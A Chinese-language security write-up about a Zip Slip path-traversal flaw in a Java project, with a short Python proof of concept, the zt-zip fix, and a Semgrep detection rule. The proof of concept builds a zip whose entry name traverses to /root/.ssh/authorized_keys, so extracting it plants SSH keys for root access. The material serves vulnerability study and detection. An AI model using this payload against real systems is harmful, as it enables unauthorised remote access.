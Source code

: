 ```java
```

这里直接使用`entry.getName()`获取压缩包内文件名，并没有做过滤，就导致了Zip Slip漏洞。详见：

+ https://xz.aliyun.com/t/12081#toc-2

所以如果使用脚本构造出特殊文件名的压缩包，就可以实现在解压时实现目录穿越：

```python
import zipfile

if __name__ == "__main__":
    try:
        zipFile = zipfile.ZipFile("poc.zip", "a", zipfile.ZIP_DEFLATED)  ##生成的zip文件
        info = zipfile.ZipInfo("poc.zip")
        zipFile.write("authorized_keys", "../../../../root/.ssh/authorized_keys", zipfile.ZIP_DEFLATED)  ##压缩的文件和在zip中显示的文件名
        zipFile.close()
    except IOError as e:
        raise e
```

### 漏洞修复

作者使用了zt-zip-1.15组件，但是注意如果版本低于1.13，这个组件本身也存在zip slip漏洞，其修复方法如下:

```java
private static File checkDestinationFileForTraversal(File outputDir, String name, File destFile) throws IOException {
    if (name.indexOf("..") != -1 && !destFile.getCanonicalPath().startsWith(outputDir.getCanonicalPath())) {
        throw new MaliciousZipException(outputDir, name);
    } else {
        return destFile;
    }
}
```

检查是否含有`..`，并且将路径规范化（getCanonicalPath会去掉..等相对路径符号）后，判断是不是正确目录。

### 完善规则

大致思路为：

+ 变量A操作xxEntry.getName，拼接或者传入函数
+ new File(..., 变量A)

```yaml
rules:
  - id: zip-slip
    patterns:
      - metavariable-pattern:
          metavariable: $NAME
          pattern-regex: (.*)[e|E](.*)
      - pattern-either:
          - pattern: |
              $A = $B(..., $NAME.getName());
              ...
          - pattern: |
              $A = ... + $NAME.getName();
              ...
          - pattern: $NAME.getName()
      - pattern: 
          $C = new File(...,$A)
    message: please filter the entry.getName()
    languages:
      - java
    severity: ERROR
```